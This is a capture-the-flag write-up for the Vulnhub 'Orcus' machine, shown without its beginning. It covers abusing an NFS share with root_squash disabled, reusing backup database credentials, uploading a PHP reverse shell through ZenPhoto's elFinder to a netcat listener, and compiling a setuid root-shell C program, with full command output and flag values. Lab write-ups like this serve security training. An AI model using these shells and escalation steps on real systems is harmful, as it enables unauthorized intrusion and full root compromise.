4 drwxrwxrwt 9 root   root   4096 Mar 23 16:15 .
4 drwxrwxr-x 3 vdbaan vdbaan 4096 Mar 23 16:15 ..
4 drwxrwxrwt 2 root   root   4096 Mar 23 15:54 .font-unix
4 drwxrwxrwt 2 root   root   4096 Mar 23 15:54 .ICE-unix
4 drwx------ 3 root   root   4096 Mar 23 15:54 systemd-private-4a2d571fc32247eebc6c5f6fdba6c093-dovecot.service-tuRS78
4 drwx------ 3 root   root   4096 Mar 23 15:54 systemd-private-4a2d571fc32247eebc6c5f6fdba6c093-systemd-timesyncd.service-ZkN0TF
4 drwxrwxrwt 2 root   root   4096 Mar 23 15:54 .Test-unix
4 drwxrwxrwt 2 root   root   4096 Mar 23 15:54 .X11-unix
4 drwxrwxrwt 2 root   root   4096 Mar 23 15:54 .XIM-unix
$ cd nfs
$ touch test
$ ls -las
total 36
4 drwxrwxrwt 9 root   root   4096 Mar 23  2017 .
4 drwxrwxr-x 3 vdbaan vdbaan 4096 Mar 23 16:15 ..
4 drwxrwxrwt 2 root   root   4096 Mar 23 15:54 .font-unix
4 drwxrwxrwt 2 root   root   4096 Mar 23 15:54 .ICE-unix
4 drwx------ 3 root   root   4096 Mar 23 15:54 systemd-private-4a2d571fc32247eebc6c5f6fdba6c093-dovecot.service-tuRS78
4 drwx------ 3 root   root   4096 Mar 23 15:54 systemd-private-4a2d571fc32247eebc6c5f6fdba6c093-systemd-timesyncd.service-ZkN0TF
0 -rw-rw-r-- 1 vdbaan vdbaan    0 Mar 23  2017 test
4 drwxrwxrwt 2 root   root   4096 Mar 23 15:54 .Test-unix
4 drwxrwxrwt 2 root   root   4096 Mar 23 15:54 .X11-unix
4 drwxrwxrwt 2 root   root   4096 Mar 23 15:54 .XIM-unix
$ sudo touch root
$ ls -las
total 36
4 drwxrwxrwt 9 root   root   4096 Mar 23  2017 .
4 drwxrwxr-x 3 vdbaan vdbaan 4096 Mar 23 16:15 ..
4 drwxrwxrwt 2 root   root   4096 Mar 23 15:54 .font-unix
4 drwxrwxrwt 2 root   root   4096 Mar 23 15:54 .ICE-unix
0 -rw-r--r-- 1 root   root      0 Mar 23  2017 root
4 drwx------ 3 root   root   4096 Mar 23 15:54 systemd-private-4a2d571fc32247eebc6c5f6fdba6c093-dovecot.service-tuRS78
4 drwx------ 3 root   root   4096 Mar 23 15:54 systemd-private-4a2d571fc32247eebc6c5f6fdba6c093-systemd-timesyncd.service-ZkN0TF
0 -rw-rw-r-- 1 vdbaan vdbaan    0 Mar 23 16:16 test
4 drwxrwxrwt 2 root   root   4096 Mar 23 15:54 .Test-unix
4 drwxrwxrwt 2 root   root   4096 Mar 23 15:54 .X11-unix
4 drwxrwxrwt 2 root   root   4096 Mar 23 15:54 .XIM-unix
```
WOW, not only can we mount the tmp directory and can we save files there, we have root privileges there, root_squash has been disabled.

So, the *only* thing we now need is it get a local shell, this NFS will help us elevate it.

Ok, back to the web, let's see what we have. The basic is a welcome screen , phpmyadmin asks for the login, zenphoto goes to it's setup screen ] and /index.php is an ecommerce site which claims that the database is offline .

PHPMyAdmin is version 4.5.4.1 which uses tokens for login, which makes bruteforcing harder. Let's see if we can find the credentials somewhere else first. We downloaded a backup directory, perhaps that has something of interest. There was a file there in this directory that we couldn't download *ssh-creds.bak*, we'll look at that when we have access.
```bash
ls -las                             
total 252
  4 drwxrwxr-x  2 steven steven   4096 Mar 23 16:30 .
  4 drwxrwxr-x 13 steven steven   4096 Mar 17 21:49 ..
  4 -rw-rw-r--  1 steven steven   1192 Mar 17 21:38 index.html?C=D;O=A
  4 -rw-rw-r--  1 steven steven   1192 Mar 17 21:38 index.html?C=D;O=D
  4 -rw-rw-r--  1 steven steven   1192 Mar 17 21:38 index.html?C=M;O=A
  4 -rw-rw-r--  1 steven steven   1192 Mar 17 21:38 index.html?C=M;O=D
  4 -rw-rw-r--  1 steven steven   1192 Mar 17 21:38 index.html?C=N;O=A
  4 -rw-rw-r--  1 steven steven   1192 Mar 17 21:38 index.html?C=N;O=D
  4 -rw-rw-r--  1 steven steven   1192 Mar 17 21:38 index.html?C=S;O=A
  4 -rw-rw-r--  1 steven steven   1192 Mar 17 21:38 index.html?C=S;O=D
212 -rw-rw-r--  1 steven steven 215368 Nov  1 00:29 SimplePHPQuiz-Backupz.tar.gz
$ tar xzf SimplePHPQuiz-Backupz.tar.gz
$ grep -r DB *
Binary file SimplePHPQuiz/fonts/glyphicons-halflings-regular.woff matches
SimplePHPQuiz/includes/db_conn.php:DEFINE ('DB_USER', 'dbuser');
SimplePHPQuiz/includes/db_conn.php:DEFINE ('DB_PASSWORD', 'dbpassword');
SimplePHPQuiz/includes/db_conn.php:DEFINE ('DB_HOST', 'localhost');
SimplePHPQuiz/includes/db_conn.php:DEFINE ('DB_NAME', 'quizdb');
SimplePHPQuiz/includes/db_conn.php:@ $dbc = new mysqli(DB_HOST, DB_USER, DB_PASSWORD, DB_NAME);
Binary file SimplePHPQuiz-Backupz.tar.gz matches
```
## First flag
Still a common pattern to use **DB_** for database related values. Let's try them with phpmyadmin and see if they still work.

YAY!! Let's search online for an exploit of PHPMyAdmin 4.5.4.1. Not really, we still have zenphoto, let's finish the install of it by entering the credentials.

So, we need to add a user, let's add admin and admin1234 as password. Good, we can login to ZenPhoto with these credentials and see what you can do with it. Trying to upload a reverse shell as image trick doesn't work, let's see what else we can do. After a while I discovered the 'elFinder' which *Provides file handling for the upload/files tab and the TinyMCE file browser.*. Lets apply this to see what it does, but first create an album called *new album* (I know, very original). 

WOOT, there is no checker like this and I could upload php-reverse-shell.php to the system. Opening it gave the following screen which tells me that it works 
So now it's time to startup a listener and fire it again.
```bash
$ nc -vnlp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from [192.168.56.102] port 1234 [tcp/*] accepted (family 2, sport 59046)
Linux Orcus 4.4.0-45-generic #66-Ubuntu SMP Wed Oct 19 14:12:05 UTC 2016 i686 i686 i686 GNU/Linux
 12:48:49 up 54 min,  0 users,  load average: 0.00, 0.02, 0.04
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ hostname
Orcus
$ cd /var/www
$ ls
9bd556e5c961356857d6d527a7973560-zen-cart-v1.5.4-12302014.zip
a0c4f0d176f87ceda9b9890af09ed644-Adem-master.zip
b873fef091715964d207daa19d320a99-zenphoto-zenphoto-1.4.10.tar.gz
flag.txt
html
zenphoto-zenphoto-1.4.10
$ cat flag.txt	
868c889965b7ada547fae81f922e45c4
```

Yeah, we have local access and found the first flag. Let's see if we really have the interaction with the /tmp folder.
```bash
$ cd /tmp
$ ls
root
systemd-private-4a2d571fc32247eebc6c5f6fdba6c093-dovecot.service-tuRS78
systemd-private-4a2d571fc32247eebc6c5f6fdba6c093-systemd-timesyncd.service-ZkN0TF
test
$ ls -las
total 36
4 drwxrwxrwt  9 root root 4096 Mar 23 12:50 .
4 drwxr-xr-x 24 root root 4096 Oct 30 23:05 ..
4 drwxrwxrwt  2 root root 4096 Mar 23 11:54 .ICE-unix
4 drwxrwxrwt  2 root root 4096 Mar 23 11:54 .Test-unix
4 drwxrwxrwt  2 root root 4096 Mar 23 11:54 .X11-unix
4 drwxrwxrwt  2 root root 4096 Mar 23 11:54 .XIM-unix
4 drwxrwxrwt  2 root root 4096 Mar 23 11:54 .font-unix
0 -rw-r--r--  1 root root    0 Mar 23 12:50 root
4 drwx------  3 root root 4096 Mar 23 11:54 systemd-private-4a2d571fc32247eebc6c5f6fdba6c093-dovecot.service-tuRS78
4 drwx------  3 root root 4096 Mar 23 11:54 systemd-private-4a2d571fc32247eebc6c5f6fdba6c093-systemd-timesyncd.service-ZkN0TF
0 -rw-rw-r--  1 1000 1000    0 Mar 23 12:50 test
```

Good, the root file we created using sudo on the attacking system is actually owned by root. We can abuse this to evelate our privileges.
Let's compile the following program 
```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main(int argc, char *argv[]) {
   gid_t supplementary_groups[] = {0};
   setgroups(1, supplementary_groups);
   setgid(0);
   setuid(0);
   system("/bin/sh");
}
```
set the owner to root and set the suid bit. (On the attacker machine)
```bash
$ gcc -o getroot getroot.c
getroot.c: In function ‘main’:
getroot.c:8:4: warning: implicit declaration of function ‘setgroups’ [-Wimplicit-function-declaration]
    setgroups(1, supplementary_groups);
    ^
$ sudo chown root: getroot
[sudo] password for steven: 
$ sudo chmod 4755 getroot
$ 
```
And on the victim
```bash
$ ./getroot
./getroot: 1: ./getroot: Syntax error: "(" unexpected
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ uname -a
Linux Orcus 4.4.0-45-generic #66-Ubuntu SMP Wed Oct 19 14:12:05 UTC 2016 i686 i686 i686 GNU/Linux
```
## Second flag
Oh, it's a 32 bit system and not 64. Let's redo it, but compile it this time with the **-32** flag.
```bash
$ ./getroot
id
uid=0(root) gid=0(root) groups=0(root)
hostname
Orcus
cd /root
ls
flag.txt
cat flag.txt
807307b49314f822985d0410de7d8bfe
```

There is one more flag to find. Remember the *ssh-creds.bak* file in the backups directory. Let's look at that.
```bash
python -c "import pty;pty.spawn('/bin/bash')"
root@Orcus:/root# cd /var/www
cd /var/www
root@Orcus:/var/www# cd html
cd html
root@Orcus:/var/www/html# cd backups
cd backups
root@Orcus:/var/www/html/backups# ls -las
ls -las
total 224
  4 drwxr-xr-x  2 www-data www-data   4096 Nov  1 21:33 .
  4 d-wx--x--x 15 www-data www-data   4096 Mar 23 12:03 ..
212 -rw-r--r--  1 www-data www-data 215368 Oct 31 20:29 SimplePHPQuiz-Backupz.tar.gz
  4 --w-------  1 www-data www-data     12 Nov  1 21:33 ssh-creds.bak
root@Orcus:/var/www/html/backups# cat ssh-creds.bak
cat ssh-creds.bak
root:123456
root@Orcus:/var/www/html/backups# 
```

Those credentials remind me of kippo. and when I look in the password file I do see a kippo entry
```bash
kippo:x:1001:27::/home/kippo:/bin/bash
```
However it isn't in the shadow file. There is a kippo directory in /etc, lets see what we can do there
```bash
root@Orcus:/etc/kippo# ./start.sh
./start.sh
twistd (the Twisted daemon) 16.0.0
Copyright (c) 2001-2016 Twisted Matrix Laboratories.
See LICENSE for details.
Starting kippo in the background...
ERROR: You must not run kippo as root!
root@Orcus:/etc/kippo# 
```
Ah, yeah. Not wise to run a honeypot as root, let's try again but now as kippo.
```bash
root@Orcus:/etc/kippo# su - kippo     
su - kippo
No directory, logging in with HOME=/
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kippo@Orcus:/$ cd /etc/kippo
cd /etc/kippo
kippo@Orcus:/etc/kippo$ ./start.sh
./start.sh
twistd (the Twisted daemon) 16.0.0
Copyright (c) 2001-2016 Twisted Matrix Laboratories.
See LICENSE for details.
Starting kippo in the background...
Unhandled Error
Traceback (most recent call last):
  File "/usr/lib/python2.7/dist-packages/twisted/application/app.py", line 617, in run
    runApp(config)
  File "/usr/lib/python2.7/dist-packages/twisted/scripts/twistd.py", line 25, in runApp
    _SomeApplicationRunner(config).run()
  File "/usr/lib/python2.7/dist-packages/twisted/application/app.py", line 348, in run
    self.application = self.createOrGetApplication()
  File "/usr/lib/python2.7/dist-packages/twisted/application/app.py", line 413, in createOrGetApplication
    application = getApplication(self.config, passphrase)
--- <exception caught here> ---
  File "/usr/lib/python2.7/dist-packages/twisted/application/app.py", line 424, in getApplication
    application = service.loadApplication(filename, style, passphrase)
  File "/usr/lib/python2.7/dist-packages/twisted/application/service.py", line 411, in loadApplication
    passphrase)
  File "/usr/lib/python2.7/dist-packages/twisted/persisted/sob.py", line 224, in loadValueFromFile
    eval(codeObj, d, d)
  File "kippo.tac", line 26, in <module>
    import kippo.core.auth
  File "/etc/kippo/kippo/core/auth.py", line 102, in <module>
    class HoneypotPasswordChecker:
  File "/etc/kippo/kippo/core/auth.py", line 106, in HoneypotPasswordChecker
    credentials.IPluggableAuthenticationModules)
exceptions.AttributeError: 'module' object has no attribute 'IPluggableAuthenticationModules'


Failed to load application: 'module' object has no attribute 'IPluggableAuthenticationModules'
```
After searching on the interwebs I found that this problem is related to a wrong version of Twisted. Let's upgrade this, start kippo again and see what happens next.
```bash
kippo@Orcus:/etc/kippo$ exit
exit
logout
root@Orcus:/etc/kippo# cd /tmp
cd /tmp
root@Orcus:/tmp# tar xjf Twis*
tar xjf Twis*
root@Orcus:/tmp# cd Twist*
cd Twist*
root@Orcus:/tmp/Twisted-15.2.0# python setup.py install
python setup.py install
running install
running bdist_egg
running egg_info
creating Twisted.egg-info
<SNIPPING INSTALLING STUFF>
Installed /usr/local/lib/python2.7/dist-packages/Twisted-15.2.0-py2.7-linux-i686.egg
Processing dependencies for Twisted==15.2.0
Searching for zope.interface==4.1.3
Best match: zope.interface 4.1.3
Adding zope.interface 4.1.3 to easy-install.pth file

Using /usr/lib/python2.7/dist-packages
Finished processing dependencies for Twisted==15.2.0
root@Orcus:/tmp/Twisted-15.2.0# 
root@Orcus:/tmp# su - kippo
su - kippo
No directory, logging in with HOME=/
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kippo@Orcus:/$ cd /etc/kippo
cd /etc/kippo
kippo@Orcus:/etc/kippo$ ./start.sh
./start.sh
twistd (the Twisted daemon) 15.2.0
Copyright (c) 2001-2015 Twisted Matrix Laboratories.
See LICENSE for details.
Starting kippo in the background...
Generating new RSA keypair...
Unhandled Error
Traceback (most recent call last):
  File "/usr/local/lib/python2.7/dist-packages/Twisted-15.2.0-py2.7-linux-i686.egg/twisted/application/app.py", line 657, in run
    runApp(config)
  File "/usr/local/lib/python2.7/dist-packages/Twisted-15.2.0-py2.7-linux-i686.egg/twisted/scripts/twistd.py", line 23, in runApp
    _SomeApplicationRunner(config).run()
  File "/usr/local/lib/python2.7/dist-packages/Twisted-15.2.0-py2.7-linux-i686.egg/twisted/application/app.py", line 389, in run
    self.application = self.createOrGetApplication()
  File "/usr/local/lib/python2.7/dist-packages/Twisted-15.2.0-py2.7-linux-i686.egg/twisted/application/app.py", line 454, in createOrGetApplication
    application = getApplication(self.config, passphrase)
--- <exception caught here> ---
  File "/usr/local/lib/python2.7/dist-packages/Twisted-15.2.0-py2.7-linux-i686.egg/twisted/application/app.py", line 465, in getApplication
    application = service.loadApplication(filename, style, passphrase)
  File "/usr/local/lib/python2.7/dist-packages/Twisted-15.2.0-py2.7-linux-i686.egg/twisted/application/service.py", line 403, in loadApplication
    application = sob.loadValueFromFile(filename, 'application', passphrase)
  File "/usr/local/lib/python2.7/dist-packages/Twisted-15.2.0-py2.7-linux-i686.egg/twisted/persisted/sob.py", line 210, in loadValueFromFile
    exec fileObj in d, d
  File "kippo.tac", line 34, in <module>
    rsa_pubKeyString, rsa_privKeyString = core.ssh.getRSAKeys()
  File "/etc/kippo/kippo/core/ssh.py", line 291, in getRSAKeys
    with file(public_key, 'w+b') as f:
exceptions.IOError: [Errno 13] Permission denied: 'data/ssh_host_rsa_key.pub'


Failed to load application: [Errno 13] Permission denied: 'data/ssh_host_rsa_key.pub'

kippo@Orcus:/etc/kippo$ 
```
## Third flag
Oh, we're missing more files. Let's see what's going on there.
```bash
kippo@Orcus:/etc/kippo$ cd data
cd data
kippo@Orcus:/etc/kippo/data$ ls
ls
userdb.txt
kippo@Orcus:/etc/kippo/data$ ls -als
ls -als
total 12
4 drwxr-xr-x  2 root root 4096 Nov  1 22:28 .
4 drwxr-xr-x 11 root root 4096 Nov  1 22:28 ..
4 -rw-r--r--  1 root root   45 Nov  1 22:28 userdb.txt
kippo@Orcus:/etc/kippo/data$ cat userdb.txt
cat userdb.txt
root:0:123456
fakuser:1:TH!SP4SSW0RDIS4Fl4G!
kippo@Orcus:/etc/kippo/data$ 
```

## Finished
Finally, found all three flags. Thanks to Viper for the nice VM and [Vulnhub](https://www.vulnhub.com/) for hosting it.
